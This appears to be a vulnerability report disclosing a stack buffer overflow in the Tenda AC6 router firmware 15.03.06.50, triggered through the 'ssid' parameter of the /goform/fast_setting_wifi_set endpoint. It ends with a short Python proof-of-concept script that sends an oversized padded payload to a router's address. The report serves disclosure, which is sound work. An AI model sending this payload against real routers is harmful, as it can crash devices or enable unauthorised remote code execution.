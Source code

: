 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been discovered in the Tenda AC6 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/fast_setting_wifi_set` HTTP request handler and can be exploited remotely by unauthenticated attackers to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/fast_setting_wifi_set` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `ssid`.

![alt text](image-2.png)

## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'ssid': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x40 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/fast_setting_wifi_set", payload)
```